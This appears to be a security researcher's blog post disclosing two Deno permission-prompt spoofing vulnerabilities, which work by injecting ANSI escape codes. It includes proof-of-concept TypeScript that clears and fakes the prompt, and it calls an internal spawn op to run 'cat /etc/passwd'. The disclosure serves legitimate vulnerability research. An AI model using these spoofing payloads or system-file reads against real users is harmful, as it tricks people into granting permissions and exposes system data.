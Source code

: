 ```yaml
---
title: twice-around ansi injection in deno
description: permission prompts are wonderful, but the modern terminal is powerful too.
emojis: 🦕 🚫 📟
date: 2023-03-25
slug: deno-ansi-injection
---
```


Deno is a wonderful project, and I'm a big fan. I've been following the project for a few years now, and it is one of my favourite scripting runtimes, even more than python.
It's a great way to run TypeScript (and, unfortunately, JavaScript) code on the server side, and its package model + permission system proves extremely powerful.

However, the project for me served as a good start on my first few CVEs.

## Deno's permission system

Deno, by default, is secure. Deno doesn't make guarantees on runtime resources (CPU, RAM), but it does make guarantees on external access or permenant storage.

For example, if a malicious script you ran (maybe `deno run https://example.com/malicious-script.ts`) tried to access the file system, it would be denied. This is because Deno's default permissions don't allow for:
- network access
- file system access
- environment access
- arbitrary command execution
- ffi access
- and even fingerprinting (system apis and disables high resolution timers)

However, sometimes you *want* a script to have these permissions, so deno treats you with a prompt. For example, running `deno run https://example.com/grab-a-cat-pic.ts`, which grabs pictures of cats from an `example.com` API, would prompt you with:

```
┌ ⚠️  Deno requests net access to "example.com".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
```

This is a wonderful feature, and I'm glad it exists. It makes working with arbitrary scripts much safer, and it's a great way to ensure that you're not running malicious code.
Unfortunately, it's not perfect.

## by accident

I was playing around with Deno's web workers. Web workers allow you to run code in a separate thread,
and they're a great way to do things like offload CPU intensive tasks to a separate thread, or to run code in a separate thread without blocking the main thread.

At the time, I was trying to fetch some data from my main file asynchronously, and wanted to see how well it worked with web workers.

```ts
// worker.ts
console.log("hello from worker");
```

```ts
// main.ts
const worker = new Worker(new URL("worker.ts", import.meta.url).href, {
  type: "module",
});

const request = await fetch("https://example.com/api/cat-pics");
```

```sh
$ deno run --allow-net main.ts
```

This worked great! I was able to fetch data from the internet, and I was able to run code in a separate thread.

However, when running it again, I forgot to include `--allow-net`, leading to this interesting prompt:

```
┌ ⚠️  Deno requests net access to "example.com".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
hello from worker
```

At first, I didn't think much of it. I simply assumed the web worker was just running after, and the network request took a bit to kick in, and that it was just printing out the message.

However, from my previous work with direct ANSI codes (as I wanted to know how terminal colors were displayed), I knew that you could use ANSI codes to move the cursor around, and I knew that you could use ANSI codes to clear the screen.

So, I decided to try it out.

```ts
// worker.ts
console.clear();
console.log(`
┌ ⚠️  Deno requests net access to "deno.land".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
`);
```

```ts
// main.ts
const worker = new Worker(new URL("worker.ts", import.meta.url).href, {
  type: "module",
});

const request = await fetch("https://example.com/api/malicious-fetch-fingerprint");
```

```sh
deno run main.ts
```

As predicted, the prompt was cleared, and the message was printed out. This simple trick allowed me to spoof the prompt, and it was a great way to get a user to accidentally grant permissions to a malicious script.

This CVE is now [GHSA-mc52-jpm2-cqh6](https://github.com/denoland/deno/security/advisories/GHSA-mc52-jpm2-cqh6), or [CVE-2023-22499](https://security.snyk.io/vuln/SNYK-RUST-DENO-3233636) (snyk).

## on purpose

Around this time, I recently learned that deno had internal methods (accessible by `Deno[Deno.internal]`).

Then, looking at the permission prompt (from my previous CVE), I noticed that it can take a number of parameters on the rust side, and that it occasionally exposes these parameters to the user.

Here was the template for the permission prompt:

```
┌ ⚠️  Deno requests ${type} access to ${scope}.
├ Requested by `${api}` API
├ Run again with --allow-${type} to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
```

`type` and `scope` are both tightly controlled, and are only ever set to a few values. However, `api` is not. It's set to whatever the API is that is requesting the permission.

For ease of developer convenience, the Deno maintainers made this configurable, and allowed you to set the `api` parameter to whatever you wanted, on the TypeScript side.

This was hidden in `op` functionality, specifically in `op_spawn_child` and `op_kill`, where `op_spawn_child` works on `--unstable` and `op_kill` is configured to give access to all run permissions.

```ts
const boldANSI = "\u001b[1m" // bold
const unboldANSI = "\u001b[22m" // unbold

const prompt = `┌ ⚠️  ${boldANSI}Deno requests run access to "echo"${unboldANSI}
├ Requested by \`Deno.Command().output()`

const moveANSIUp = "\u001b[1A" // moves to the start of the line
const clearANSI = "\u001b[2K" // clears the line
const moveANSIStart = "\u001b[1000D" // moves to the start of the line

Deno[Deno.internal].core.ops.op_spawn_child({
    cmd: "cat",
    args: ["/etc/passwd"],
    clearEnv: false,
    env: [],
    stdin: "null",
    stdout: "inherit",
    stderr: "piped"
}, moveANSIUp + clearANSI + moveANSIStart + prompt)
```

Once again, this allowed me to spoof the prompt, providing another way to get a user to accidentally grant permissions to a malicious script.

This is now [GHSA-vq67-rp93-65qf](https://github.com/denoland/deno/security/advisories/GHSA-vq67-rp93-65qf), or [CVE-2023-28450](https://nvd.nist.gov/vuln/detail/CVE-2023-28450)

## tips

dig into stuff, if it looks interesting, and try it out. You never know what you might find.
